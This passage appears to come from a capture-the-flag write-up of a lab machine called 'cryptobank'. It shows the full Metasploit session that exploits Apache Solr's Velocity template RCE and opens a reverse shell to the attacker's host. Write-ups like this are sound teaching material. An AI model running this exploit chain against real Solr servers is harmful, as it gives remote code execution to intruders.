 Now I visited the IP in my browser at <i>http://localhost:81</i>

<center><br>
<img src="/assets/img/uploads/cryptobank/solr.png">
</center>

This website is running Solr. I searched on metasploit and found an RCE exploit.

```r
msf5 > search solr

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description                                                                   
   -  ----                                  ---------------  ----       -----  -----------                                                                   
   0  exploit/multi/http/solr_velocity_rce  2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template                       

msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS localhost                                                                        
RHOSTS => localhost
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 81RPORT => 81
msf5 exploit(multi/http/solr_velocity_rce) > set SRVPORT 8082
SRVPORT => 8082
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4443
LPORT => 4443
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.1.8
LHOST => 192.168.1.8
msf5 exploit(multi/http/solr_velocity_rce) > exploit
[*] Exploiting target 0.0.0.1
[*] Started reverse TCP handler on 192.168.1.8:4443 
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 192.168.1.8:4443 
[*] Found Apache Solr 8.1.1
[*] OS version is Linux amd64 4.15.0-96-generic
[*] Found core(s): cryptobank
[*] Targeting core 'cryptobank'
[*] Command shell session 1 opened (192.168.1.8:4443 -> 192.168.1.9:44802)
[*] Session 1 created in the background.
```